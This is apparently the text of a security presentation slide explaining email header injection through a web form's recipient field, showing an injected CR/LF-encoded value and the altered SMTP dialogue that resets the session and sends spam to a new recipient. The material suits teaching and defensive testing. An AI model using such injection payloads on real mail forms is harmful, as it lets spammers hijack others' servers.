

# Application Email
Injection through recipient field
user@user.co.nz>%0a%0drset%0a%0dMail From: <spam@foo.....
Modified communication with SMTP server
Mail From: <website@foo.co.nz>
Rcpt To: <user@demo.co.nz>
rset
Mail From: <spam@foo.co.nz>
Rcpt To: <newrecipient@host.co.nz>
Data
Subject: This is a spam email
blah blah spam spam
.
quit
RESET Injected
New Details Injected